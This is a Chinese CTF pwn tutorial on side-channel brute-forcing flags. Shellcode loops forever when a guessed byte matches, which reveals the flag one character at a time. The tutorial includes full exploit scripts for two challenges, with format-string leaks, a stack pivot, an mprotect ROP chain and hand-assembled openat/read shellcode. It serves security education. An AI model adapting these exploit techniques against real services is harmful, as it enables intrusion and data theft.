







## 什么是侧信道爆破？

侧信道攻击是一种非常有趣的攻击手法，在pwn中通常为侧信道爆破。我的理解是侧信道爆破是指在程序没有正常回显的情况下通过执行精心构造后的数据，获取一些程序的现象或反馈来确定最终正确的flag，这种反馈比如有程序回显的错误，或者死循环等等。


> 使用前提：
>
> 1、侧信道爆破需要执行我们编写的shellcode(因为程序中必然无法找到全部对应的gadget)，因此能够写入和执行一定字节的shellcode是必要的
>
> 2、程序在禁用了execve系统调用后，同时关闭了标准输出流后，才有必要使用侧信道爆破。
>
> 3、同时**标准错误不能被关闭**(因为我们需要它来反馈信息)，还必须要保证read可以从指定文件中读取flag，open或者openat系统调用要保证至少有一个可用。
>
> 攻击效果：在程序禁用了部分系统调用并且关闭了正常回显后，通过程序反馈的信息对进行flag逐位爆破。

## 侧信道爆破的整体思路:

首先需要想办法在程序中写入一段shellcode并且能将其执行。然后我们先执行open系统调用(如果open被禁用的话可以使用openat系统调用)，将flag文件打开返回一个文件描述符，然后用read系统调用将文件中的内容读到一片可读写的内存上，然后布置一段与flag比较的shellcode，这段shellcode的编写思路如下。

首先核心是用cmp指令将读入内存中的flag取一位来与我们给出的一个字符做对比，如果发现flag取的这一位与我们给出的字符一样就跳回到cmp指令处，因为字符都没变化，cmp比较后还是同样的结果，再次跳转回cmp指令处，这样无限循环程序不会有任何的回显。如果cmp比较后发现flag取一位得到的字符与我们所给的字符不同，就不进行跳转继续往下执行，我们不在后面布置任何的指令，这样程序继续往后执行，最终必然会崩溃。而我们根据程序在一定时间内是否反馈了崩溃信息来判断我们的flag是否判断正确(用je或者jz指令来实现这个跳转)

上面这段与flag对比的shellcode如下：

**(这段shellcode第一行并不通用，我们需要自己根据题目的情况将flag字符串的首地址放入rax，后面的三行汇编指令才是通用的)**  另外汇编指令本身中的{}自然是非法的，这里所出现的{}是配合python脚本中的format方法(这个{}则是在爆破中的变量，因此需要占位符)

```assembly
mov rax,rsi
mov bl,byte ptr [rax+{}]
cmp bl,{}
je $-3
```

第一行就是将flag字符串的首地址给rax(这一行并不通用，根据题目自行修改)。

第二行将flag中的某一位取出。{}是相对于flag首地址的偏移，用来确定到底是取哪一位。通俗来将第二行的{}决定了正在爆破的是flag的哪一位。

第三行则将我们给出的字符与flag中的某一位进行比较

第四行如果cmp比较时，二者不相同就不会跳转。如果相同的话就将跳到当前指令的地址-3的位置，而cmp那个指令的机器码就是三字节，因此-3又回到了cmp执行前。由于我们给出的字符没有变，所以将无限循环下去。

上述的内容为核心步骤，最后整体的话需要用两个循环嵌套一下，大循环为while 1**(也就是不断循环下去，这个循环每走完一次就说明flag已经爆破出了一位)**，小循环为for循环遍历我们给出flag中可能出现的字符组成的字符串**(这个循环走一次就说明对flag中的某一位进行了判断，如果判断正确的话(也就是陷入了死循环)就break跳出当前循环，否则继续遍历字符串)**

具体的话结合相关题目练习一下吧

## 相关例题：

### xman_2019_nooocall

#### 保护策略



发现保护全开，并且沙箱禁用了所有的系统调用。

#### 程序分析



虽然系统调用都禁用了，但程序自己将flag读到了v5的位置，因此还是可以使用侧信道爆破的。可以发现程序自己读入了16个字节的shellcode，并将其执行。这就纯纯考的侧信道爆破了，下面就直接放脚本了，毕竟思路啥的上面已经说过了。

#### EXP:

```py
from tools import *
context.arch = 'amd64'
s = "{}-abcdefghijl01234567898"
list = [ord(x) for x in s]
flag = ""
shellcode = """
add al, 2
sal rax, 32
mov bl, byte ptr [rax+{}]
cmp bl, {}
jz $-0x3 
"""
index = 0
# debug(p,'pie',0xD87)
while 1:
    for i in range(len(s)):
        p = remote('node4.buuoj.cn', 28383)
        p.sendlineafter('Your Shellcode >>', asm(shellcode.format(index, list[i])))
        judge = p.recv(timeout=2)
        p.close()
        if not judge:
            #log_info('success!')
            flag += chr(list[i])
            log_info(flag)
            index = index + 1
            break
        if judge:
            pass
            #log_info('wrong!')
    #log_info(flag)
    if '}' in flag:
        break
```

​					

### ctfshow-卷王杯-checkin

#### 保护策略





这题winmt师傅本意考的是侧信道爆破，但是忘记禁用execve系统调用了哈哈。这里我只记录侧信道爆破的方法。

#### 漏洞分析：



存在一个格式化字符串漏洞，很明显这里肯定是来泄露地址的，然后第二个read上存在溢出，但是溢出字节较少因此肯定要打一个栈迁移，然后我们用%p%25$p来泄露栈地址和libc地址。

#### 大致思路：

迁移到第二次read写入的数据上，先执行mprotect函数让此处的栈区变成可读可写可执行。因为这0x90的字节不够布置rop链的因此再用read系统调用来读入一次数据到栈上(这次数据的数量我们是可控的)。

接下来的第二次rop链，有两个问题，第一个是open系统调用被禁用了所以我们用openat来代替，第二个问题就是如果执行read系统调用那么它的文件描述符必须是0，因此采用的对抗策略是将标准输入用close关闭，然后再用openat打开flag文件，此时返回的文件描述符就是0了。然后就是read将flag读出来，然后用侧信道爆破的shellcode处理一下即可。

最后要注意的是openat这个系统调用，如果是绝对路径的话那么直接当成open用就行(不过还得给第一个参数和第三个参数，路径位于第二个参数的位置)，如果是相对路径的话，第二个参数的路径是相对于第一个参数文件描述符的位置来说的，如果想相对于当前工作目录的路径来说的话，需要第一个参数为-100(第三个参数也需要是正常的，具体的话查一下手册或者百度都行)



但是不知道为啥，我只要用相对路径的话，openat系统调用也能顺利执行，但是莫名其妙就把我本地的flag文件给删了，我也是很懵，本地的话只能用绝对路径来搞。


#### EXP:

```py
from tools import *
s="-0123456789abcdefghijklmnopqrstuvwxyz{}"
list=[ord(x) for x in s]
index=0
flag=""
context.arch='amd64'
while 1:
    for i in range(len(s)):
        p=process('./checkin')
        #p=remote('pwn.challenge.ctf.show',28080)
        leave_ret=0x401402
        p.sendlineafter('Please leave your name :\n','%p%25$p')
        p.recvuntil('Hello, ')
        leak_stack_addr=int(p.recv(14),16)
        leak_libc_addr=int(p.recv(14),16)
        #log_addr('leak_libc_addr')
        #log_addr('leak_stack_addr')
        target_addr=leak_stack_addr+0x10
        libc_base_addr=leak_libc_addr-0x271e3
        #log_addr('libc_base_addr')
        #debug(p,0x401403)
        pop_rsi=libc_base_addr+0x2709c
        pop_rdx_r12=libc_base_addr+0x11c421
        pop_rdi=libc_base_addr+0x26bb2
        syscall=libc_base_addr+0x2588d
        pop_rax=libc_base_addr+0x28ff4
        mprotect=libc_base_addr+0x11bbb0
        bin_sh_addr=0x00000000001b6613+libc_base_addr
        rop=p64(pop_rdi)+p64(leak_stack_addr&~0xfff)+p64(pop_rsi)+p64(0x1000)+p64(pop_rdx_r12)+p64(7)+p64(0)
        rop+=p64(pop_rax)+p64(10)+p64(mprotect)+p64(leak_stack_addr+0x68)
        rop+=b"\x48\x89\xE6\x48\xC7\xC7\x00\x00\x00\x00\x48\xC7\xC2\x00\x02\x00\x00\x0F\x05"
        payload=rop.ljust(0x80,b'a')+p64(target_addr-8)+p64(leave_ret)
        p.sendafter('Now, please tell us more about you to check in :\n',payload)
        rop=b"\x90"*23+"\x6A\x00\x5F\x6A\x03\x58\x0F\x05\x68\x01\x01\x00\x00\x58\x6A\x00\x5A\x6A\x9C\x5F\x48\xBE\x2F\x66\x6C\x61\x67\x00\x00\x00\x56\x54\x5E\x0F\x05\x68\x60\x40\x40\x00\x5E\x6A\x00\x5F\x6A\x30\x5A\x48\x31\xC0\x0F\x05"
        shellcode="""
        mov rax,rsi
        mov bl,byte ptr [rax+{}]
        cmp bl,{}
        je $-3
        """
        rop+=asm(shellcode.format(index,list[i]))
        p.sendline(rop)
        judge=p.can_recv(timeout=3)
        p.close()
        if not judge:
            log_info('success!')
            flag += chr(list[i])
            log_info(flag)
            index = index + 1
            break
        if judge:
            pass
            #log_info('wrong!')
            #log_info(flag)
        #log('i',chr(list[i]))
    if '}' in flag:
        break
```

我比较喜欢用自己汇编转的机器码，但是机器码的话，各位师傅肯定看的不方便，我这里给一下我rop链机器码对应的汇编指令。填充这么多nop指令是因为我构造的rop链中的read系统调用输入的数据需要nop指令占一下位，才能将有效指令写到执行流上。(可以调read的第二个参数，但我当时懒的弄了，这样省事)

```assembly
mov    rsi,rsp
mov    rdi,0x0
mov    rdx,0x200
syscall
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
push 0
pop rdi
push 3
pop rax
syscall
push 257
pop rax
push 0
pop rdx
push -100
pop rdi
mov rsi, 0x67616c662f
push rsi
push rsp
pop rsi
syscall
push 0x404060
pop rsi
push 0
pop rdi
push 0x30
pop rdx
xor rax,rax
syscall
```


## 参考文章：

[roderick师傅的博客](https://www.cnblogs.com/LynneHuan/p/15674233.html)

[winmt师傅的博客](https://www.cnblogs.com/winmt/articles/15943249.html)

https://blog.csdn.net/The_perfect_world/article/details/89280224